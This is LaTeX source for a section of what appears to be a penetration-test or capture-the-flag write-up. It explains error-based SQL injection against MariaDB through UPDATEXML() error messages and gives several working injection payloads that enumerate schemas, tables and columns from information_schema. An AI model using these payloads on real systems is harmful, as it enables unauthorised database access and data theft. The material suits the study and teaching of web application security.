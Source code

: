 \documentclass[12pt]{article}
\begin{document}
\subsubsection{Schema Extraction via \texttt{updatexml()} (error-based SQL Injection)}

 By deliberately passing invalid arguments to UPDATEXML(0, CONCAT('~', <sub-query>, '~'), 0)\cite{mariadb-updatexml}. The bad first argument forces MariaDB to raise an XPATH error that echoes the second argument, so the error message leaks the sub-query’s result, which can be exploited to extract schema information:
\begin{verbatim}
' OR updatexml(0, concat('~', 
    (SELECT table_schema FROM information_schema.tables 
     ORDER BY table_schema LIMIT 0,1)), '~') OR '# 
\end{verbatim}

This approach revealed that \texttt{information\_schema} was present. The injection was refined to exclude system schemas and discover user-defined ones.
\begin{verbatim}
'or updatexml(0,concat('~',(SELECT table_name FROM information_schema.tables
WHERE table_schema NOT IN ('mysql','information_schema','performance_schema','sys') 
group by table_name limit 0,1), '~'),0) or '#

\end{verbatim}


\subsubsection{Table and Column Enumeration}
The following payloads were used to enumerate table names and confirm the structure:
\begin{verbatim}
' OR updatexml(0, concat('~',
    (SELECT table_name FROM information_schema.tables 
     WHERE table_schema NOT IN ('mysql','information_schema','performance_schema',
     'sys') 
     GROUP BY table_name LIMIT 4,1)), '~') OR '# 
\end{verbatim}

This revealed the existence of \texttt{agents} and \texttt{reports} tables. 

\begin{verbatim}
' OR updatexml(0, concat('~',
    (SELECT GROUP_CONCAT(column_name) 
     FROM information_schema.columns 
     WHERE table_name like 'agents')), '~') OR '# 
\end{verbatim}
\end{document}
